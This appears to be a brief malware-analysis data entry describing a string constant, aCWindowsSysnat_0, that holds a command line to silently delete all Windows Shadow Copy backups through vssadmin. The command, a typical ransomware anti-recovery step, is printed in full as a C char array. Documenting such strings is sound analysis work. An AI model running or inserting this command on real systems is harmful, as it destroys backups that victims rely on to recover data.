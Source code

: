 # aCWindowsSysnat_0 data

## Description

This data represents a command line that silently deletes the system *Shadow Copy Backups*.

## Information

* Start Address : 
* End Address : 
* Size : 
* Data Type : `CHAR*`

## Value

```c
CHAR aCWindowsSysnat_0[] = "C:\\Windows\\SysNative\\vssadmin.exe delete shadows /all /quiet";
```

